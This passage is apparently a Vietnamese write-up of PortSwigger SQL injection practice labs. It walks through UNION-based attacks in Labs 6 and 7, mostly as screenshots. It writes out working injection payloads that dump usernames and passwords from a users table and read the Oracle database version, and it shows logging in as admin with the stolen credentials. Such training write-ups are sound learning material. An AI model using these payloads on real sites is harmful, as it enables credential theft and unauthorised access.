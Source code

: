 Dùng UNION để tấn công: chèn thêm lệnh `'+UNION+SELECT+username,password+FROM+users--`

Ta tìm thấy tài khoản admin
![](https://hackmd.io/_uploads/B1rulQCZa.png)

Giờ thì login vào thui
![](https://hackmd.io/_uploads/B1qhlXCbT.png)
Done!

# Lab 6: SQL injection UNION attack, retrieving multiple values in a single column
![](https://hackmd.io/_uploads/B11vX7AW6.png)
Lab yêu cầu đưa ra tất cả giá trị trong bảng `users`

Đầu tiên, xác định số cột truy vấn 
![](https://hackmd.io/_uploads/Hyx3rmAWa.png)

Bước 2, xác định cột nào là định dạng string
![](https://hackmd.io/_uploads/Sy8yUQR-6.png)

Bước 3, ghép 2 giá trị `username` và `password` vào cột thứ 2 bằng cách chèn thêm `||'~'||`
Câu lệnh lúc này là
`'UNION+SELECT+NULL,username||'~'||password+FROM+users--`
![](https://hackmd.io/_uploads/HJxBQIXRZa.png)

Đem tài khoản và mật khẩu admin login vào
![](https://hackmd.io/_uploads/rJOK87AWp.png)
Done!

# Lab 7: SQL injection attack, querying the database type and version on Oracle
![](https://hackmd.io/_uploads/H1TMgLsfp.png)
Lab yêu cầu tấn công UNION để xác định phiên bản database 

Ta có [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) sau
![](https://hackmd.io/_uploads/r1OAu4jz6.png)

Đầu tiên, xác định số cột select, vì là `Oracle` nên phải `FROM` từ một bảng xác định, bảng này được gọi là `dual`
![](https://hackmd.io/_uploads/B1e9Ewofp.png)

Xác định cột nào là định dạng string
![](https://hackmd.io/_uploads/Skr4HwofT.png)

Payload câu lệnh tương ứng với `Oracle`
```sql
'+UNION+SELECT+banner,+NULL+FROM+v$version--
```
![](https://hackmd.io/_uploads/B1ryLvszT.png)
Done!
